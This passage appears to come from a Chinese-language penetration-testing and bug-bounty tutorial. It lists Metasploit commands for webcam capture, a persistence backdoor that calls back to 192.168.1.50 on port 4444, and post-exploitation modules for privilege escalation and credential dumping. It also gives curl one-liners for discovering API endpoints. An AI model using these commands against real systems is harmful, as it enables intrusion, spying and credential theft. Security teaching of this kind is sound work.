 ```bash
# 網絡攝像頭
webcam_list
webcam_snap

# 持久化
run persistence -U -i 60 -p 4444 -r 192.168.1.50
```

**7.4.2 後滲透模組**：

```bash
# 權限提升
use post/windows/escalate/getsystem
use post/linux/escalate/cve2021_4034_pwnkit

# 資訊收集
use post/windows/gather/enum_system
use post/linux/gather/enum_configs

# 憑證轉儲
use post/windows/gather/credentials/credential_collector
use post/linux/gather/pam

# 網路探索
use post/multi/gather/ping_sweep
use post/windows/gather/arp_scanner
```


## 第八部分：進階Bug Bounty技術

### 8.1 API安全測試

**8.1.1 API偵察技術**：

```bash
# API端點發現
# 從JavaScript檔案中提取API端點
curl -s https://target.com | grep -oE 'src="[^"]*\.js"' | cut -d'"' -f2 | while read js; do
    curl -s "https://target.com$js" | grep -oE '/api/[a-zA-Z0-9/_-]*'
done | sort -u

# 從robots.txt尋找API路徑
curl -s https://target.com/robots.txt | grep -i api

# 常見API端點字典
/api/v1/
/api/v2/
/rest/
/graphql
/swagger
/api-docs
```
